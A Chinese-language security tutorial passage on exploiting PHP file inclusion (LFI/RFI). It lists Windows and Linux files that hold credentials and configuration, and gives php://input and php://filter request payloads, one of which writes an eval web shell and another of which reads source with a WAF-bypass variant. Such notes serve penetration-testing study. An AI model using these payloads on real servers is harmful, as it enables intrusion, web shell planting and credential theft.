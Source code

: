 ```yaml
---
title: "PHP文件包含利用"
author: ["4shen0ne"]
draft: false
---
```


## 介绍 {#介绍}

文件包含的相关函数：

1.  include()
2.  include_once()
3.  require()
4.  require_once()

include 函数如果出错仍会执行后续代码，但 require 函数出错则程序中止，xxx_once 函数表
示只包含目标文件一次，避免函数重定义和变量覆盖问题

文件包含分为本地文件包含（LFI）和远程文件包含（RFI）两类，RFI 需要在 php.ini 文件中
配置：

```nil
allow_url_fopen = On
allow_url_include = On
```

Windows 敏感文件：

```nil
c:/boot.ini //查看系统版本
c:/windows/php.ini //php配置信息
c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码
c:/winnt/php.ini
c:/winnt/my.ini
C:\Windows\win.ini  //用于保存系统配置文件
c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码
c:\Program Files\Serv-U\ServUDaemon.ini
c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置
c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码
c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此
c:\Program Files\RhinoSoft.com\ServUDaemon.exe
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif //存储了pcAnywhere的登陆密码
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件
c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
d:\APACHE\Apache2\conf\httpd.conf
C:\Program Files\mysql\my.ini
C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码
```

Lunix/Unix 敏感文件：

```nil
/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
/usr/local/apache2/conf/httpd.conf
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/etc/sysconfig/iptables //从中得到防火墙规则策略
/etc/httpd/conf/httpd.conf // apache配置文件
/etc/rsyncd.conf //同步程序配置文件
/etc/my.cnf //mysql的配置文件
/etc/redhat-release //系统版本
/etc/issue
/etc/issue.net
/usr/local/app/php5/lib/php.ini //PHP相关设置
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/etc/sysconfig/iptables 查看防火墙策略
```


## PHP 伪协议 {#php-伪协议}


### php://input {#php-input}

可以访问请求的原始数据的只读流，即可以直接读取到 POST 中没有经过解析的原始数据

要求 `allow_url_include = On`

```restclient
POST http://localhost/fileinclude.php?file=php://input

<?php phpinfo(); ?>
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 1:</span>
  demo1
</div>

```restclient
POST http://localhost/fileinclude.php?file=php://input

<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[v])?>');?>
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 2:</span>
  demo2-写shell
</div>


### php://filter {#php-filter}

元封装器，设计用于“数据流打开”时的“筛选过滤”应用，对本地磁盘文件进行读写

```restclient
GET http://localhost/fileinclude.php?file=php://filter/read=convert.base64-encode/resource=index.php
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 3:</span>
  demo1
</div>

```restclient
# 少了read关键字，绕waf时可以尝试
GET http://localhost/fileinclude.php?file=php://filter/convert.base64-encode/resource=index.php
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 4:</span>
  demo2
</div>
